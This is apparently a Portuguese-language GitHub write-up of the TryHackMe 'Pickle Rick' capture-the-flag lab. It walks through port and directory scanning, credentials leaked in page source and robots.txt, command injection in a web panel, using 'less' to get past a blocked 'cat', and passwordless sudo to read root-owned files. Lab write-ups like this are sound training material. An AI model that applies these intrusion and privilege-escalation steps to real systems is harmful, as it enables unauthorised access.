





# Pickle-Rick-CTF
Write-up técnico do CTF Pickle Rick (TryHackMe), documentando enumeração, exploração web e escalada de privilégios em ambiente Linux.

## 📌 Informações da Máquina

| Item | Informação |
|---|---|
| Plataforma | TryHackMe |
| Sistema | Linux |
| Dificuldade | Easy |
| Objetivo | Exploração web e privilege escalation |
| Status | Completed ✅ |

---

## 🛠️ Ferramentas utilizadas

- Nmap
- Gobuster
- Linux Commands
- Browser

# 1. Reconhecimento

## Nmap
Durante a fase inicial de reconhecimento foi realizado um scan de portas.

```bash
nmap -sV -sC prickctf
```
## Foram encontrados os serviços:
```text
22/tcp open ssh
80/tcp open http
```


Aplicação web encontrada durante a fase de reconhecimento.
## Source Code Analysis
Analisando o código fonte da aplicação foi possível identificar o usuário  R1ckRul3s.
## Acesso via SSH
A partir da descoberta de credencial realizei uma tentativa de acesso via ssh (porta 22 aberta).
```bash
ssh R1ckRul3s@prickctf
```
O acesso via ssh é permitido apenas com uso de chave:
```bash
R1ckRul3s@prickctf: Permission denied (publickey).
```

# 2. Web Enumeration
Foi realizada uma enumeração de diretórios e arquivos utilizando Gobuster.
```bash
gobuster dir -u http://prickctf -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```
Resultados relevantes:
```bash
assets               (Status: 301) [Size: 311] [--> http://prickctf/assets/]
denied.php           (Status: 302) [Size: 0] [--> /login.php]
index.html           (Status: 200) [Size: 1062]
index.html           (Status: 200) [Size: 1062]
login.php            (Status: 200) [Size: 882]
portal.php           (Status: 302) [Size: 0] [--> /login.php]
robots.txt           (Status: 200) [Size: 17]
robots.txt           (Status: 200) [Size: 17]
```
Durante a análise do arquivo:

robots.txt

foi encontrado o seguinte conteúdo:
```bash
REDACTED
```
Esse valor foi identificado como uma possível senha.

# 3. Authentication


Autenticação realizada com credenciais encontradas anteriormente.

# 4. Command Injection

Após autenticação, foi identificado um painel de comandos. O painel permitia execução de comandos no servidor.
Teste realizado:

Foi identificada uma vulnerabilidade de Command Injection, permitindo a execução remota de comandos (Remote Command Execution - RCE) no servidor.
Primeiro verifiquei qual usuário se tratava:

```bash
whoami
```
que retornou o usuário : 
```bash
www-data.
```

##  Command disabled
Durante o processo de exploração da vulnerabilidade, me deparei com o bloqueio do comando cat, realizei as demais consultas utilizando o comando less para contornar o bloqueio.


# 5. Captura da Primeira Flag 🚩
Utilizado o comando alternativo:
```bash
less Sup3rS3cretPickl3Ingred.txt
```
Conteúdo encontrado:
```bash
REDACTED
```
## 🚩 Primeira Flag Obtida 🚩

## Verificando o arquivo clue.txt
O arquivo clue.txt possuía a seguinte mensagem:
```bash
Look around the file system for the other ingredient.
```
A mensagem indicava a existência de outro ingrediente no sistema de arquivos, motivando a continuidade da enumeração.
# 6. Privilege Escalation
Antes de acessar arquivos protegidos, foi realizada uma análise dos privilégios disponíveis.
O comando:
```bash
sudo -l
```
Retornou:
```bash
User www-data may run the following commands on ip<>:
    (ALL) NOPASSWD: ALL
```
O usuário www-data, possuía permissão para executar comandos como root sem autenticação.

O comando:
```bash
sudo id
```
Retornou:
```bash
uid=0(root) gid=0(root) groups=0(root)
```
Privilégio administrativo obtido.
# 7. Local Enumeration
Realizei uma busca por arquivos e diretórios relevantes com find.
Utilizei palavras chave para otimizar a busca como : rick | ingredient | potion
```bash
find / -iname "*rick*" -o -iname "*ingredient*" -o -iname "*potion*" 2>/dev/null
```
A busca retornou alguns arquivos interessantes:
```bash
/var/www/html/assets/rickandmorty.jpeg
/var/www/html/assets/picklerick.gif
/home/rick
/home/rick/second ingredients
```
Foi identificado o diretório do usuário: /home/rick
e um arquivo contendo outro ingrediente: second ingredients.

# 8. Captura da Segunda Flag 🚩🚩
Utilizando os privilégios adquiridos para visualizar a segunda flag:
```bash
sudo /usr/bin/less "/home/rick/second ingredients"
```
Conteúdo encontrado:
```bash
REDACTED
```
## 🚩🚩 Segunda Flag Obtida 🚩🚩

# 9.  Enumeração do Diretório Root
Com privilégios administrativos foi realizada a enumeração do diretório root:
```bash
sudo /bin/ls -la /root
```
Arquivos encontrados:
```bash
.bash_history
.bashrc
.profile
.ssh
.viminfo
3rd.txt
```
O arquivo de interesse identificado foi:  3rd.txt

# 10. Captura da Terceira Flag 🚩🚩🚩
Comando utilizado:
```bash
sudo /usr/bin/less /root/3rd.txt
```
```bash
REDACTED
```
## 🚩🚩🚩 Terceira Flag Obtida 🚩🚩🚩

# Vulnerabilidades Identificadas

| Vulnerabilidade | O que aconteceu |Impacto |
|---|---|---|
| Informação exposta no código fonte | O sistema revelou um usuário válido. | Facilitou a autenticação ao reduzir o trabalho de descoberta de credenciais. |
| Credenciais expostas no robots.txt  | A senha estava acessível publicamente. | Permitiu login sem necessidade de exploração adicional. |
| Command Injection | A aplicação executava comandos enviados pelo usuário. | Possibilitou execução remota de comandos, enumeração do sistema e acesso a arquivos. |
| Sudo NOPASSWD | O usuário podia executar qualquer comando como root sem senha. | Permitiu escalada de privilégios e comprometimento total da máquina. |

# Conclusão

A máquina foi comprometida através de uma cadeia de exploração envolvendo:

1. Enumeração de serviços;
2. Descoberta de informações expostas;
3. Exploração de Command Injection;
4. Escalada de privilégio através de configuração insegura do sudo.

Flags capturadas: 3/3
Status final: Máquina comprometida com sucesso ✅

